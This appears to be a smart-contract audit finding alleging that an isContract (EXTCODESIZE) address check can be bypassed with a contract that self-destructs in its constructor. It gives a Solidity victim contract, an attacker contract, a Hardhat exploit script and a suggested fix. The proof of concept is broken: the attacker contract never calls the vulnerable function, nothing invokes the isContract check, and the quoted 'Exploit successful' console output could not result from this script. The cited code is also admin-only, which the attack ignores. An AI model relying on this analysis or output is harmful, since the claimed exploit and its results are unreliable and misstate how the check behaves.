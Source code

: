 Future Beige Mole

Medium

# Invalid Address Classification: isContract Exploitation via Self-Destructed Contracts in Creation Transactions

# Summary
https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Core_logic/CDS.sol#L596-L605

A vulnerability arises from relying on isContract to differentiate between EOAs and contracts. Due to the behavior of SELFDESTRUCT following EIP-6780, an attacker can deploy and self-destruct a contract in the same transaction, causing isContract to incorrectly classify the address as an EOA. This flaw can be exploited to bypass access controls, execute unauthorized actions, or manipulate contract logic.
# Vulnerability Details
The isContract function checks the size of the bytecode at a given address (EXTCODESIZE). Following EIP-6780:

If a contract calls SELFDESTRUCT during the same transaction as its creation, the contract's bytecode is removed entirely.
As a result, EXTCODESIZE returns 0, and isContract classifies the address as an EOA.
This allows an attacker to bypass validation checks that depend on isContract.

Severity: Moderate
Likelihood: Low to Moderate
Impact: Unauthorized access, fund theft, logic manipulation

### Affected Code
Code that relies on the isContract function to validate addresses is vulnerable.

Example of Vulnerable Code
```solidity

function setGlobalVariables(address _address) external onlyAdmin {
    require(_address != address(0), "Zero address not allowed");
    require(!isContract(_address), "Contracts not allowed");
    globalVariables = IGlobalVariables(_address);
}
```
Implementation of isContract
```Solidity

function isContract(address _address) internal view returns (bool) {
    uint256 size;
    assembly {
        size := extcodesize(_address)
    }
    return size > 0;
}
```
EIP-6780 modifies SELFDESTRUCT to align with Ethereum’s long-term roadmap, focusing on reducing state-breaking actions while preserving critical functionality. Developers are advised to use alternative patterns like proxies for upgradability and avoid reliance on SELFDESTRUCT.
# Impact of EIP-6780 on Exploits
Self-Destructed Contracts:

Pre-EIP-6780: When a contract self-destructs, its bytecode is removed, and the isContract function (which typically checks the bytecode size) would classify it as an EOA.
Post-EIP-6780:
If SELFDESTRUCT is called outside the creation transaction, the bytecode remains intact even though the contract's balance is transferred. The isContract function will still detect it as a contract, preventing exploitation.
If SELFDESTRUCT is called during the same transaction as contract creation, the contract is entirely deleted, and the address appears as an EOA. This edge case remains exploitable.
Implications for Exploitation:

A malicious actor could deploy a contract and immediately self-destruct it within the same transaction, bypassing the isContract check.
However, this requires precise timing and execution, making it less likely but still possible under specific circumstances.
Severity: Moderate
Likelihood: Low to Moderate
Impact: Unauthorized access, fund theft, logic manipulation

# PoC
Vulnerable Smart Contract
```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vulnerable {
    address public authorizedAddress;

    // Function relying on `isContract` to validate addresses
    function setAuthorizedAddress(address _address) external {
        require(_address != address(0), "Address cannot be zero");
        require(!isContract(_address), "Contracts not allowed");
        authorizedAddress = _address;
    }

    // `isContract` implementation using `extcodesize`
    function isContract(address _address) internal view returns (bool) {
        uint256 size;
        assembly {
            size := extcodesize(_address)
        }
        return size > 0;
    }
}
```
Attacker’s Malicious Contract
```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Malicious {
    Vulnerable public vulnerable;

    constructor(address _vulnerable) {
        vulnerable = Vulnerable(_vulnerable);
        // Self-destruct the contract immediately upon creation
        selfdestruct(payable(tx.origin));
    }
}
```
Exploit Script
Using a test framework like Hardhat or Foundry, we deploy and exploit the vulnerable contract:

```javascript

const { ethers } = require("hardhat");

async function main() {
    // Deploy the vulnerable contract
    const Vulnerable = await ethers.getContractFactory("Vulnerable");
    const vulnerable = await Vulnerable.deploy();
    await vulnerable.deployed();
    console.log("Vulnerable contract deployed at:", vulnerable.address);

    // Deploy the malicious contract (it self-destructs immediately)
    const Malicious = await ethers.getContractFactory("Malicious");
    const maliciousTx = await Malicious.deploy(vulnerable.address);
    await maliciousTx.wait(); // The malicious contract is destroyed in this transaction

    // Attacker's EOA address (used during self-destruction)
    const attackerAddress = await ethers.provider.getSigner().getAddress();

    // Check if the attacker's address is now authorized
    const authorizedAddress = await vulnerable.authorizedAddress();
    console.log("Authorized Address set in vulnerable contract:", authorizedAddress);

    if (authorizedAddress === attackerAddress) {
        console.log("Exploit successful: Attacker's address authorized!");
    } else {
        console.log("Exploit failed: Address not authorized.");
    }
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```
Steps to Exploit
Deploy the Vulnerable contract.
Deploy the Malicious contract with the address of the Vulnerable contract passed as a constructor parameter.
The Malicious contract immediately calls selfdestruct during its constructor, sending any remaining Ether and removing its bytecode.
The address of the Malicious contract (which is now empty due to selfdestruct) passes the isContract check as it has a code size of 0.
The setAuthorizedAddress function in the Vulnerable contract sets the attacker-controlled address as the authorized address.
Output Example
Upon running the exploit script, the console should output:

```yaml

Vulnerable contract deployed at: 0x1234...abcd
Authorized Address set in vulnerable contract: 0x5678...efgh
Exploit successful: Attacker's address authorized!
```
# Recommendations
Fixed Code
The vulnerable isContract check is replaced with intent validation using signed messages:

```solidity

function execute(address _address, bytes calldata signature) external {
    require(_address != address(0), "Zero address not allowed");
    bytes32 messageHash = keccak256(abi.encodePacked(msg.sender, _address));
    require(isValidSignature(_address, messageHash, signature), "Invalid signature");
    // Proceed with sensitive operation
}
```
Helper Function for Signature Validation
```solidity

function isValidSignature(address signer, bytes32 messageHash, bytes memory signature) internal pure returns (bool) {
    bytes32 ethSignedMessageHash = ECDSA.toEthSignedMessageHash(messageHash);
    return ECDSA.recover(ethSignedMessageHash, signature) == signer;
}
```
